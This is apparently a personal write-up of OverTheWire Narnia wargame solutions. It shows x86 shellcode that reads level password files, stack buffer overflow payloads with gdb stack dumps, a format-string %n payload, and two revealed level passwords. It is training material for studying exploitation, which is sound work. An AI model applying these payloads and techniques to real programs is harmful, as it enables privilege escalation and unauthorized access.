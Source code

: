 ## Narnia Solutions

Here are short solutions I have written for Narnia levels. This is a wargame in overthewire.org. The main subject of the game is exploitation. I wrote only where I felt that there were not many sufficient solutions to the level.

### Narnia0

Well, I think that there are plany well written solutions for this level. I would like to mention, however, that the shellcode should be generated inside the shell (use python or ruby or perl, etc') because for some unusual reason, pasting a prepeared shellcode inside the shell **will not work**.


### Narnia1

To solve this level, we need to know assembly, x86 in this case (typing "lscpu" will reveal us the architecture and byte order, which are **important** for out shellcode). There are planty writeup's for this level, which most of them are incorrect (but I do recommand reading them in order to understand what is wrong), however. Moreover, I would advise you to learn how to write a shellcode in linux, because copying and pasting a shellcode from shell storm won't work in this case. So after we figure out that there is a buffer overflow with the enviromental variable, we want to inject our shellcode. Remeber, no null bytes and illegal chars!
Because spawning a regular shell won't work (the shell will be privileged with narnia1 user), we want to use the our vulnerability to open narnia2 password file. Let's dive into our shell code:
```
section .text
	global _start

_start:
	xor eax,eax
	push eax          ;end of the /bin/cat string
	push 0x7461632f
	push 0x6e69622f
	mov ebx, esp      ;ebx points to the start of the string
	push eax
	push 0x3261696e
	push 0x72616e2f
	push 0x73736170
	push 0x5f61696e
	push 0x72616e2f
	push 0x6374652f
	mov ecx, esp      ;ecx points to the start of the string (/etc/narnia_pass/narnia2)
  push eax          ;array has to end with null
	mov al, 11        ;we use execve syscall, numbered 11
	mov edx, esp      ;edx points to null (we don't need char *const envp[])
	push ecx          ;push the first arg (/etc/narnia_pass/narnia2)
	push ebx          ;push the second arg (/bin/cat
	mov ecx, esp      ;ecx points to array with two args
	int 0x80
```	
	
Now, we want to compile our code and link it, thus:
```nasm -f elf shell.asm -o shell.o
ld -m elf_i386 -s shell.o -o shell
```
(-m elf_i386 is not necessary, but was in my case)

Okay, let's extract our shellcode:
`for i in $(objdump -M intel -d shell | grep "^ "|cut -f2); do echo -n '\x'$i;done;echo`
and Wallah:
```
narnia1@narnia:~$ export EGG=`python -c "print('\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x32\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80')"`
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
nairiepecu
```

### Narnia2

Here, we are dealing with a classic buffer overflow once again. We can see that our buffer is limited, hence we can give a bigger input that exceeds our buffer size  (no input validation is done) and thus overwrite our return address from the main() function. This will allow us to jump into a place we control and execute our shellcode. I truly recommand reading phracks 'smashing the stack' article to gain better understanding of this attack: http://phrack.org/issues/49/14.html

Let's proceed to our soltuion:
First, we fire up gdb and give it an input which is bigger than expected and see what happens with our stack:
```
disas main
(we break on the address of ret, because we want to overwrite the return address)
b *0x080484b2(ret's_address, which is obviously different for everyone)
r $(python -c "print('a'*130)")
```
now let's check if our $ebp was or $esp were overwritten:
``` info reg ```
No, not yet. After trying for several times, input of 144*'a' will overwrite esp and eip (eip contains the return address).
Now, we want to overwrite the last 4 bytes with 'our' address (our controlled address). We will add our shellcode from the previous level and will change it slighlty (will read narnia3 file instead of narnia2). It's size is 59 bytes. Now, we want our controlled address be the address in the stack in which the injected shellcode starts. Therefore we will inject our shellcode and see where it starts, letting us to overwrite the eip address to point to the start of it:
```
r $(python -c "print('a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'aaaa')")
```
```
x/200wx $esp
0xffffd780:	0x616e2f61	0x61696e72	0x61610032	0x61616161
0xffffd790:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7a0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7d0:	0x61616161	0x61616161	0x31616161	0x2f6850c0
0xffffd7e0:	0x68746163	0x6e69622f	0x6850e389	0x3361696e
0xffffd7f0:	0x616e2f68	0x61706872	0x6e687373	0x685f6169
0xffffd800:	0x72616e2f	0x74652f68	0x50e18963	0xe2890bb0
0xffffd810:	0xe1895351	0x616180cd	0x58006161	0x535f4744
```
We can see that our shellcode starts at: 0xffffd7d0+B(11 in decimal)=0xffffd7db. Additionaly, we can see that eip is overwritten by our 4 extra bytes:
```
(gdb) info frame
Stack level 0, frame at 0xffffd5b4:
 eip = 0x61616161; saved eip = 0x0
 called by frame at 0xffffd5b8
 Arglist at 0xffffd5ac, args: 
 Locals at 0xffffd5ac, Previous frame's sp is 0xffffd5b4
 Saved registers:
  eip at 0xffffd5b0
```
Okay, now we know our injection code should be the following:
```
'a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'\xdb\xd7\xff\xff'
```
Let's get the password:
./narnia2 ``python -c "print('a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'\xdb\xd7\xff\xff')"``
and...........wallah:
vaequeezee

## Narnia 3-4
I don't think there is something special in these excercises. There are great write ups for them: http://tutorialsjunkie.blogspot.com/2018/02/overthewire-narnia-walkthrough.html
Side note: narnia4 uses a nope slide, which is an important technique to master.


## Narnia 5

Here we are exploiting format string vulnerability. One should get familier with the %x, %n and %s format string. Usually, the most common vulnerable function for format string are: 
printf
vsprintf
fprintf
vsnprf
sprint
vfprintf
snprintf
vprintf

What happens basically is as following: '%x,%s,%n' are special format string input. When we put them into a function such as above, the function expects an argument corresponding to them. If we put more format string input than actuall corresponding arguments, the function will start pulling addresses from the stack with the "%x" format string. This is great for us, as we can determine how much addresses we need to pop (each address is 4 bytes big) and then write their length into a address crafted by us. Meet the "%n" format string, which takes an address and write number of byes into it. This is exactly what we are going to do - determine what is the address and then craft 500 bytes into I's address.
First, we want to pop out our input from the stack. We will do it by trying to print our input. For me, it takes 5 format strings:
```
narnia5@narnia:/narnia$ ./narnia5 `python -c "print('aaaa')"`%x%x%x%x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [aaaac287ffffffff2ff7e23dc861616161] (34)
i = 1 (0xffffd62c)
```
As seen above, 61616161 ('aaaa') is popped in the end, it means that we need 5 format strings in order to pop our input. Let's change it to I's address:
```
`python -c "print('\x2c\xd6\xff\xff')"`%x%x%x%x%x
```
and now we want to write 500 bytes, so we need to replace the last %x with %n and add additional width:
```
`python -c "print('\x2c\xd6\xff\xff')"`%x%x%x%482u%n
```
Why 482? because %x takes 4 bytes and %n 2 bytes, tehrefore 482+(4 * 4)+2=500.
```
narnia5@narnia:/narnia$ ./narnia5 `python -c "print('\x2c\xd6\xff\xff')"`%x%x%x%482u%n
Change i's value from 1 -> 500. GOOD
$ ^C
```
here we go.


